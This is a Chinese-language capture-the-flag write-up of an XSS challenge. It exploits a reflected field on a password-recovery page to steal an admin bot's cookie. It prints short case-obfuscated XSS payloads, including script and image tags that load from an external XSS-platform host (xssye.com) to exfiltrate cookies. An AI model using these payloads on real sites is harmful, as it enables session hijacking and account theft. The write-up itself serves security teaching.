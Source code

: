 # Leixiao's blog --淚笑
## 考察知识点：
### 1.xss
### 2.信息收集

进入界面，注册账号登陆，发现一个Wrinting写的东西会在首页回显，但是主页只有自己的用户能看到，构造的xss,抓不到管理员cookie

继续浏发现密码找回处，的密保问题有回显

![image](images/9F330BC3EF574AF7B415E0314E7B5062Leixiao's%20blog%20--淚笑1.png)

观察value值构造xss:"><scRipT>alert(1);</sCriPt>
![image](images/6E8AF331D4BD4293B0E3E699F815944BLeixiao's%20blog%20--淚笑2.png)

![image](images/F62BA2E422DF4955A152212984C6B101Leixiao's%20blog%20--淚笑3.png)

找回12139密码时：弹出了 1

此时构造能获取cookie的payload,采用xss平台的payload:`<Img sRC=http://xssye.com/eLIt.jpg>`

但是发现有长度限制，不能超过32位

采用xss平台最短，payload:<sCRiPt/SrC=//xssye.com/eLIt>
![image](images/FC10620D4DC0428C8AF15B891CAAA0FELeixiao's%20blog%20--淚笑4.png)

注册为12141用户，当访问12141用户的忘记密码界面时即会触发xss

将12141用户忘记密码连接发送到用户后台，后台机器人会去触发，即可拿到flag

